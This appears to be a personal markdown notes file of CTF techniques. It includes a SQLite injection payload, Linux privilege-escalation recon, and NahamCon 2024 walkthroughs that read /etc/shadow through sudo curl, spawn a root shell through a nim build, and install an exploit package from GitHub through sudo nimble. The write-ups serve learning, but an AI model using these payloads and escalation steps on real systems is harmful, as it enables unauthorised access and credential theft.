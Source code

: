 # This is a file i'll include things i didn't know and or find after reading some write-ups

## apps

- `https://play.google.com/store/apps/details?id=com.arara.q`

## sql injections

- ' || (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'))--

## Privilege Escalation

### cat .bash_history

This might show what someone has already done.
Maybe shows passwords from sshpass.

### cat /etc/passwd | grep sh

This might show some other users, and we grep to what users have shells.

### sudo -l

shows what sudo accesses a users have

#### Nahamcon-2024/curly_fries challenge

For this challenge we logged in as user:userpass with ssh and found access to the fry users directory, including its history file, and found the fry user's password, making us able to switch to the fry user.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-curlly-fries-sudo-l.png)

This shows the user fry can execute a certain curl command as root without the need for a password.
Using "sudo curl 127.0.0.1:8000/health-check file:///etc/shadow".
Then we can crack the hashes of the machine and pawn it.

See `https://github.com/LazyTitan33/CTF-Writeups/blob/main/Nahamcon-2024/Misc/Curly_Fries.md`

#### Nahamcon-2024/jack_be part 1

For this challenge we logged in as user:userpass with ssh.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-Jack-Be.png)

This shows the user jack can run a use nim run as root without a password.
So we create a nim project, and file that executes commands.

```bash
nimble init .

echo '#main.nim

import osproc

proc main() =
    let command = "/bin/bash"
    let result = execCmd(command)
    echo result

when isMainModule:
    main()'>./src/main.nim

chmod 777 .
nimble build
sudo -u jack /usr/bin/nimble run
```

And where in jack

#### Nahamcon-2024/jack_be part 2

In part 1 we logged in to another user.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-Jack-Be2.png)

From here we can continue with `sudo -l` and we can see we can use `sudo nimble install *` without a password and can continue escalating our privilege with package you made yourself.

```bash
sudo -l
sudo -u root /urs/bin/nimble install https://github.com/ThorD125/nim-exploit-lib
```

See `https://game0v3r.vercel.app/blog/nahamconctf-miscellaneous`

## extra s

Very specific case but still interesting.

### Make Self Extracting

If there is a file,
Including the hex data of the file to extract,
The following command can be used to write it to a file:
`tail -n 75 self_extractor > result`

